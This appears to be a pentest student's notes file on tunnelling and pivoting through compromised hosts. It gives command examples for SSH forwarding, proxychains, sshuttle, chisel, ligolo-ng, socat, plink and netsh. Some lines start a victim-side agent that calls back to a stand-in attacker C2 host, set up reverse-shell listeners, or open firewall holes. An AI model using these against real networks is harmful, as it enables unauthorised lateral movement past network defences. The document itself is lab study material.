 # Tunnling
## ssh
![[Pasted image 20240227200023.png|500]]
**需要可交互的TTY！**
由SSH服务器进行转发
### Local Port Forwording
```bash
ssh -N -L [LocalHost]:<localport>:<DestHost>:<DestPort> <sshServer_user>@<sshServerIP>
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```
### Dynamic
```bash
ssh -N -D [LocalHost]:[LocalPort] <sshServer_User>@<sshServer_IP>
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```
#### Proxychains[^1]
```bash
sudo vi /etc/proxychains4.conf 
#在末尾添加socks5(4) <ssh_client_IP> <port>
socks5 192.168.246.63 9999

proxychains4 <command...>
#proxychains4 nmap -Pn -sT -n -vvv 172.16.246.217
```
### Remote  Port Forwording
本地起SSH Deamon服务
远程主机访问本地的SSH服务器进行转发。
```bash
ssh -N -R <sshServer_IP/localhost>:<sshServer_IP_port>:<forward_IP>:<forward_port>  <sshServer_User>@<sshServer_IP>
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4

#转发后的端口即可在本地(127.0.0.1)进行访问
```
### Remote Dynamic
```bash
ssh -N -R 9998 kali@192.168.118.4
tail /etc/proxychains4.conf #配置本地proxychains  ->> socks5 127.0.0.1 9998
proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.50.64
```
### Tool -- sshuttle
1. SSH客户端具有root权限
2. SSH服务器需要安装Python3
```bash
#DMZ
socat TCP-LISTEN:2222,fork TCP:<Next_pivot>:22
# ssh 登录到目标枢纽，建立路由，指定我们想要使用的SSH连接字符串，以及我们想要通过此连接进行隧道传输的子网（10.4.50.0/24和172.16.50.0/24）
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```
## Chisel
https://ap3x.github.io/posts/pivoting-with-chisel/
default port:1080
`cp $(which chisel) /var/www/html #or /tmp` 对于linux的目标主机，可以直接复制kali所使用的版本 
Kali:
```bash
chisel server --port 8080 --reverse
#sudo tcpdump -nvvvXi tun0 tcp port 8080 开启抓包
```
Linux:
```bash
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
# 创建隧道
#chisel.exe client <chisel_server_IP>:<server_Port> R:<Local_Port>:<Remote_Host>:<Remote_Port> 
chisel.exe client 192.168.119.5:8080 80:172.16.6.241:80
chisel.exe client 192.168.119.5:8080 R:80:172.16.6.241:80 
```
## ligolo
Release: https://github.com/nicocha30/ligolo-ng/releases
### Set up
   ![[Pasted image 20240422144031.png]]
   ```bash
   $ go build -o agent cmd/agent/main.go
   $ go build -o proxy cmd/proxy/main.go
   
   # Build for Windows
   #GOOS=windows go build -o agent.exe cmd/agent/main.go
   #GOOS=windows go build -o proxy.exe cmd/proxy/main.go
   
   sudo ip tuntap add user ikan mode tun ligolo
   sudo ip link set ligolo up
   ```
### Run
   ```bash
   $ ./proxy -h # Help options
   $ ./proxy -autocert # Automatically request LetsEncrypt certificates
   # in lab use -selfcert instead of -autocert
   
   #Add agent;Add Route
   session [session_number] # --> start
   
   sudo ip route add [192.168.0.0/24] dev ligolo #[subnet]
   ip route list #查看添加的路由
   
   sudo ip route add 10.10.199.0/24 dev ligolo
   ```
   ### Add Agent of Victim
   ```powershell
   #Download the agent.exe/agent.elf
    ./agent -connect [attacker_c2_server.com]:11601 -ignore-cert
   
   # Double Pivot
   listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601 #在代理机上执行
   ./agent2.exe -connect [c2_agent1_IP]:11601 -ignore-cert #agent2通过agent1中转
   #session 命令切换到新的会话，然后使用 start 在该连接上开始一个隧道。
   
   sudo ip route add 172.16.6.0/24 dev ligolo #添加新的子网
   ```
   ### Reverse Shell & File Upload
   ```bash
   listener_list
   
   #在当前的代理机执行操作
   listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444 #Set up a listener for reverse shell
   listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:8000 #Set up a file Transfer port.
   ```
# PortForward
通过中继机器访问远程/不同子网下的服务；
## Socat
```bash
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432 
iptables #也可以创建转发
```
## Plink
将远程服务3389拉到本地端口的9983使用
```powershell
.\plink.exe -ssh -l <login> -pw <password> -R <ssh_server_Socket>:<ssh_client_Socket> <sshServer_IP>
.\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 <Kali_IP>
```
No-tty Solution
```powershell
cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw -R 127.0.0.1:9833:127.0.0.1:3389 192.168.41.7
```
## Netsh
受UAC限制&&需要管理员权限
将远程的2222拉到能直接访问主机192.168.50.64:2222上
Listen.port ---> connect.port
```cmd
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

netstat -anp TCP | find "2222"
netsh interface portproxy show all
```
***
### 防火墙“凿洞”
防火墙只打开了80/3389端口，为了访问我们配置的2222端口，我们需要在防火墙上打一个洞。
**我们完成后还需要记得封住那个洞口！**
```powershell
#netsh advfirewall firewall子上下文 来创建这个端口。我们将使用add rule命令，并命名规则为"port_forward_ssh_2222"。稍后将使用这个名称来删除规则。
# Allow localport=2222 localip=192.168.50.64 'direction' dir=in -> 流量方向

netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
```
***
>***一旦我们完成连接，我们需要记得删除刚刚创建的防火墙规则。***
***
```powershell
#端口转发规则也可以被删除
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
